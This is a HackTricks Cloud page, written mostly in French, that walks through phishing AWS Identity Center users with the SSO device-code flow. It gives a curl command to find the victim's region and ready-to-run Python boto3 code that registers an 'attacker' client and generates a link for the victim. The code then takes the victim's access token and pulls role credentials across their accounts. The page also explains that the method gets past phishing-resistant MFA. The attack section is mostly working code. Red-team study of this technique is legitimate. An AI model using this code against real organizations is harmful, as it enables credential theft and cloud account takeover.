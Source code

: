 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Phishing de code de dispositif AWS

Initialement proposé dans [**cet article de blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), il est possible d'envoyer un **lien** à un utilisateur utilisant AWS SSO qui, si le **utilisateur accepte**, permettra à l'attaquant d'obtenir un **jeton pour usurper l'identité de l'utilisateur** et accéder à tous les rôles auxquels l'utilisateur peut accéder dans le **Identity Center**.

Pour réaliser cette attaque, les prérequis sont :

* La victime doit utiliser le **Identity Center**
* L'attaquant doit connaître le **sous-domaine** utilisé par la victime `<victimsub>.awsapps.com/start`

Avec juste les informations précédentes, l'**attaquant pourra envoyer un lien à l'utilisateur** qui, s'il est **accepté**, accordera à l'**attaquant l'accès au compte** utilisateur AWS.

### Attaque

1. **Trouver le sous-domaine**

La première étape de l'attaquant est de découvrir le sous-domaine que l'entreprise victime utilise dans son Identity Center. Cela peut être fait via **OSINT** ou **devinette + BF** car la plupart des entreprises utiliseront leur nom ou une variation de leur nom ici.

Avec cette info, il est possible d'obtenir la région où le Identity Center a été configuré avec :
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Générez le lien pour la victime & Envoyez-le**

Exécutez le code suivant pour générer un lien de connexion AWS SSO afin que la victime puisse s'authentifier.\
Pour la démonstration, exécutez ce code dans une console python et ne la quittez pas car vous aurez besoin de certains objets pour obtenir le token :
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envoyez le lien généré à la victime en utilisant vos incroyables compétences en ingénierie sociale !

3. **Attendez que la victime l'accepte**

Si la victime était **déjà connectée à AWS**, elle n'aura qu'à accepter l'octroi des permissions, si elle ne l'était pas, elle devra **se connecter puis accepter l'octroi des permissions**.\
Voici à quoi ressemble l'invite de nos jours :

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenez le jeton d'accès SSO**

Si la victime a accepté l'invite, exécutez ce code pour **générer un jeton SSO en usurpant l'utilisateur** :
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Le jeton d'accès SSO est **valide pendant 8h**.

5. **Imiter l'utilisateur**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing le MFA impénétrable

C'est amusant de savoir que l'attaque précédente **fonctionne même si un "MFA impénétrable" (webAuth) est utilisé**. Cela est dû au fait que le **flux de travail précédent ne quitte jamais le domaine OAuth utilisé**. Contrairement à d'autres attaques de phishing où l'utilisateur doit supplanter le domaine de connexion, dans le cas où le flux de code de dispositif est préparé, un **code est connu par un dispositif** et l'utilisateur peut se connecter même sur une machine différente. Si le prompt est accepté, le dispositif, juste en **connaissant le code initial**, sera capable de **récupérer les identifiants** pour l'utilisateur.

Pour plus d'infos à ce sujet, [**consultez ce post**](https://mjg59.dreamwidth.org/62175.html).

### Outils Automatiques

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## Références

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
